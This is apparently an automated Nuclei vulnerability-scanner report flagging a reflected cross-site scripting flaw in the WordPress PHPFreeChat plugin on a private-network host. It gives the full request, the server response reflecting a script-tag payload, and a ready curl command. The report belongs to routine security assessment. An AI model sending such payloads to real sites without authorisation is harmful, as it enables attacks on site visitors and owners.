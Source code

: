 ### WordPress Plugin PHPFreeChat - 'url' Reflected Cross-Site Scripting (XSS) (wp-phpfreechat-xss) found on http://192.168.198.179:8080/
---
**Details**: **wp-phpfreechat-xss**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/phpfreechat/lib/csstidy-1.2/css_optimiser.php?url=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:18 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Plugin PHPFreeChat - 'url' Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | wordpress, xss, wp-plugin |
| Severity | medium |

**Request**
```http
GET /wp-content/plugins/phpfreechat/lib/csstidy-1.2/css_optimiser.php?url=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 259
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/phpfreechat/lib/csstidy-1.2/css_optimiser.php?url=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://www.securityfocus.com/bid/54332/info

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/phpfreechat/lib/csstidy-1.2/css_optimiser.php?url=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)